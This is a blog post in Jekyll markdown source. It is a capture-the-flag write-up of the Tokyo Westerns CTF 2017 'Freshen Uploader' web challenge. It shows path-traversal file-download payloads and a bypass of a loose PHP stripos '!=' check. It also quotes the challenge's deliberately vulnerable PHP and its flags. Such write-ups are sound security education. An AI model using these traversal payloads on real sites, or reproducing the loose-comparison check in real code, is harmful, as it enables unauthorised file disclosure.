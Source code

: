 ```yaml
---
layout: post
title: Tokyo Westerns CTF 2017 - Web 1 - Freshen Uploader
date: 2017-09-04 11:58:11.000000000 +05:30
excerpt: "A web challenge, where we have a exploit a LFI and then a vulnerable type check in PHP against return value of a string function named 'stripos'"
type: post
published: true
status: publish
author: Nagesh Podilapu a.k.a H4rryp0tt3r
assetID: 792fe2131db0a2d0bc7b58330df0676b
---
```


In this challenge they provided a simple web page hosted at [http://fup.chal.ctf.westerns.tokyo/][chal-link]{:target="_blank"} (may not be available at this time).

{% include image.html url="/assets/792fe2131db0a2d0bc7b58330df0676b/home_page.png" description="Front page of the given challenge" %}

All this page has is a download link, so I quickly had a look at the download link.

`http://fup.chal.ctf.westerns.tokyo/download.php?f=6a92b449761226434f5fce6c8e87295a`

Ah oh! Looks like we can change URL parameter `f`, so I tried to download the script `download.php` by changing parameter value to `f=../download.php`. Yay! It worked! so this is an LFI.

{% highlight php %}
<?php
// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Content-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
?>
{% endhighlight %}

We got our first flag: **TWCTF{then_can_y0u_read_file_list?}**.

So we still need to read file_list to get another flag. Well! we went ahead and downloaded `index.php` this time.

{% highlight php %}
<?php
include('file_list.php');
?>
... some redacted HTML code ...
{% endhighlight %}

So, we need to download source code of file_list.php as well. But! the condition `stripos($filename, 'file_list') != false) die();` is not letting us download this file. Somehow we need to bypass this.

After a few minutes of struggle to understand what's wrong, my eyes glazed over `!=` operator which will not check type. So, I quickly opened up a php interpreter on my machine to do some trails.

<pre>
php > if(stripos("file_list.php","file_list") != false) print "I'm here";
php > if(stripos("hello file_list.php","file_list") != false) print "I'm here";
I'm here
php > echo stripos("file_list.php","file_list");
0
php > echo stripos("hello file_list.php","file_list");
6
</pre>

From the above, it looks like stripos is taking a source string as first parameter and substring to find as a second parameter then it's returning the first index where it found the given substring. So, by putting the string `file_list` at the very beginning of parameter 'f' will make the result of stripos to zero, which will bypass the condition. Awesome! Now all we need to do is `f=file_list/../../file_list.php`

{% highlight php %}
<?php
$files = [
  [FALSE, 1, 'test.cpp', 192, '6a92b449761226434f5fce6c8e87295a'],
  [FALSE, 2, 'test.c', 325, '27259bca9edf408829bb749969449550'],
  [TRUE, 3, 'flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213', 1337, 'flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213'],
  [FALSE, 4, 'test.py', 94, '951470281beb8a490a941ac73bd10953'],
];
?>
{% endhighlight %}

Well! we have the secret file name where our flag is `flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213`.

Now we can download the file simply by using the payload `f=flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213`.

And the flag is: **TWCTF{php_is_very_secure}**

A little sarcasm included ¯\_(ツ)_/¯


[chal-link]: http://fup.chal.ctf.westerns.tokyo/
